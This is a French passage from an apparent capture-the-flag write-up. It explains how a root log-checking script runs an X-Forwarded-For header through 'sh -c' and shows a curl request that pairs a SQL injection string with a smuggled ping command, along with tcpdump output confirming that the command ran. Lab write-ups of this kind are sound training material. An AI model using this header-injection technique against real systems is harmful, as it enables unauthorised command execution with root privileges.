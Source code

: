 ```
                $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
                $ip .= "\n";
                file_put_contents("/var/www/development/logged", $ip);
                die();
        } elseif (preg_match( $evilword, $password )) {
                echo 'SQL Injection detected. This incident will be logged!';
                $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
                $ip .= "\n";
                file_put_contents("/var/www/development/logged", $ip);
                die();
        }
}
```
On vois aussi qu'il écris dans le fichier **/var/www/development/logged** qui est utilisé dans le script **log_checker.sh**.


Le script utilise **/usr/bin/sh -c "echo $ip >> /root/logged";** qui est vulnérable car elle utilise le binaire **/usr/bin/sh** avec l'argument **-c** (*-c = command string*) puis, il utilise **echo** pour écrire. On peux donc rajouter des commandes après **echo** avec un **;** (point-virgule) par exemple.

J'ai donc 2 idées ici.

1) Si je met un shell dans le script **log_checker.sh** et que je tente une injection SQL pour déclancher la "protection", peut-être que j'aurai un shell.
2) Il utilise le header **X-Forwarded-For** pour remplir la variable **$ip** puis l'écrire dans le fichier **logged**. Si je met mon payload dans le header, peut-être qu'il me l'executera et j'aurai un shell.

## Idée 1
Je n'avais pas regarder les permissions... Je ne peux pas écrire dans le script, ni dans le fichier **logged**. Donc mauvaise idée.

## Idée 2
On va test le header du coup !

Je vais déjà test de me ping voir si je peux executer des commandes via le header.

Je met en écoute le protocole **icmp** avec tcpdump:
```
┌──(kali㉿kali)-[~]
└─$ sudo tcpdump -i any icmp
tcpdump: data link type LINUX_SLL2
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on any, link-type LINUX_SLL2 (Linux cooked v2), snapshot length 262144 bytes
```
Je fait une sqli afin de me faire log par la protection:
```
kitty@kitty:/var/www/development$ curl -k "http://127.0.0.1:8080/index.php" -d "username=bla&password=bla' OR 1=1 -- -" --header "X-Forwarded-For:;ping 10.11.50.195 -c 4"

SQL Injection detected. This incident will be logged!
```
Et je reçoit bien mon ping :
```
06:10:00.907368 tun0  In  IP kitty.thm > 10.11.50.195: ICMP echo request, id 1, seq 1, length 64
06:10:00.907419 tun0  Out IP 10.11.50.195 > kitty.thm: ICMP echo reply, id 1, seq 1, length 64
06:10:01.908481 tun0  In  IP kitty.thm > 10.11.50.195: ICMP echo request, id 1, seq 2, length 64
06:10:01.908506 tun0  Out IP 10.11.50.195 > kitty.thm: ICMP echo reply, id 1, seq 2, length 64
06:10:02.910564 tun0  In  IP kitty.thm > 10.11.50.195: ICMP echo request, id 1, seq 3, length 64
06:10:02.910602 tun0  Out IP 10.11.50.195 > kitty.thm: ICMP echo reply, id 1, seq 3, length 64
```
J'ouvre donc un shell :)
```
```